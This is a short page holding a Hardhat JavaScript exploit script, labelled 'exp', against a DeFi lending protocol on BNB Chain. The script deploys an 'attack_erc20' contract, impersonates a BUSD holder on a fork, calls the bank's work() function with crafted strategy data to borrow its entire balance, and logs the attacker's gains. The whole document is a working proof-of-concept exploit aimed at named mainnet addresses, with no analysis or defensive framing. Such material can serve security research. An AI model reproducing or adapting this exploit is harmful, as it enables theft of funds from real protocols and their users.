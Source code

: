 exp：

```js
const hre = require("hardhat");
async function main() {

    const BUSD = "0x55d398326f99059fF775485246999027B3197955";
    const BUSD_HOLDER = '0xEFDca55e4bCE6c1d535cb2D0687B5567eEF2AE83';
    const BANK_ADDR = '0xc18907269640D11E2A91D7204f33C5115Ce3419e';
    const STRATEGY = '0x5085c49828b0b8e69bae99d96a8e0fcf0a033369'

    let Hack = await hre.ethers.getContractFactory("attack_erc20");
    const hack = await Hack.deploy();
    await hack.deployed();
    console.log("attack contract deployed to:", hack.address);


    await hre.network.provider.request({
        method: "hardhat_impersonateAccount",
        params: [BUSD_HOLDER],
    });
    const signer = await hre.ethers.getSigner(BUSD_HOLDER)
    const IERC20 = await hre.ethers.getContractAt("contracts/attack.sol:IERC20", BUSD, signer);
    //const IRHO = await hre.ethers.getContractAt("contracts/attack.sol:IRhoToken", BUSD, signer);
    let amount = await IERC20.balanceOf(BUSD_HOLDER);
    let tx = await IERC20.transfer(hack.address, amount);
    console.log('Transfer %s BUSD from %s to %s', amount, BUSD_HOLDER, hack.address);

    await hack.init();
    let pairAddr = await hack.pair();
    const IBANK = await hre.ethers.getContractAt("contracts/attack.sol:IBANK", BANK_ADDR, signer);

    let data = hre.ethers.utils.defaultAbiCoder.encode(['address', 'uint', 'uint', 'address' ,'uint'], [STRATEGY, 0x40, 0x40 ,pairAddr, 2]);
    //console.log("data: ", data);

    let borrowAmount = await IERC20.balanceOf(BANK_ADDR);
    await IBANK.work(0, 15, borrowAmount, data);
    console.log("step 2");
    await hack.payday();
    let before = await hack.BUSDBalanceBefore();
    let after = await hack.BUSDBalanceAfter();
    let Mbefore = await hack.Mbefore();
    let Mafter = await hack.Mafter();
    let rhoBefore = await hack.rhoBefore();
    let rhoAfter = await hack.rhoAfter()
    console.log("attacker BUSD before: ", before);
    console.log("attacker BUSD after:  ", after);
    console.log("attacker Mbefore: ", Mbefore);
    console.log("attacker Mafter:  ", Mafter);
    console.log("attacker rho before: ", rhoBefore);
    console.log("attacker rho after:  ", rhoAfter);

}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```
